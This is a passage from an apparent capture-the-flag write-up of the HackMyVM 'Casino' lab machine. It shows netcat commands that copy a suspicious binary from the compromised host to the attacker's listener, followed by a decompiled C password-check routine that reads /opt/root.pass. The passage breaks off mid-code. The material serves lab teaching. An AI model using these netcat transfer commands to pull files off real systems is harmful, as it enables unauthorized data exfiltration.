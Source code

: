 This binary does not look like a common binary so, let's transfer it to our attack host for a deeper understanding of its function.
##### Starting a listener on our attack host
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ nc -lvnp 9000 > pass_sample
listening on [any] 9000 ...
```

##### Sending the binary using Netcat to our attack host
```bash
shimmer@casino:~$ nc -q 0 10.0.2.16 9000 < pass 
shimmer@casino:~$ 
```
##### Receiving the binary on our attack host
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ nc -lvnp 9000 > pass_sample
listening on [any] 9000 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.26] 50044
```
 Now that we have the binary file on our attack host, we can decompile it using Cutter a powerful multi-platform reverse engineering tool. 
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Casino/Misc Files]
└─$ cutter pass_sample 
```

When we decompile the main function we will have something like the code below
```c
undefined8 main(int argc, char **argv)
{
    int32_t iVar1;
    undefined4 uVar2;
    int64_t iVar3;
    char **var_108h;
    int var_fch;
    char *s1;
    int64_t var_88h;
    int64_t var_80h;
    char *s;
    int var_ch;
    
    var_fch = argc;
    printf("Passwd: ");
    fgets(&s, 100, _stdin);
    iVar3 = strlen(&s);
    if (*(char *)((int64_t)&var_80h + iVar3 + 7) == '\n') {
        iVar3 = strlen(&s);
        *(undefined *)((int64_t)&var_80h + iVar3 + 7) = 0;
    }
    iVar1 = checkPasswd((char *)&s);
    if (iVar1 == 1) {
        var_ch = open("/opt/root.pass", 0);
        uVar2 = getuid();
        setuid(uVar2);
        printf("Second Passwd: ");
        fgets(&s1, 100, _stdin);
        iVar3 = strlen(&s1);
        if (*(char *)((int64_t)&var_fch + iVar3 + 3) == '\n') {
            iVar3 = strlen(&s1);
            *(undefined *)((int64_t)&var_fch + iVar3 + 3) = 0;
        }
        iVar1 = strcmp(&s1, "<REDACTED>");
        if (iVar1 == 0) {
```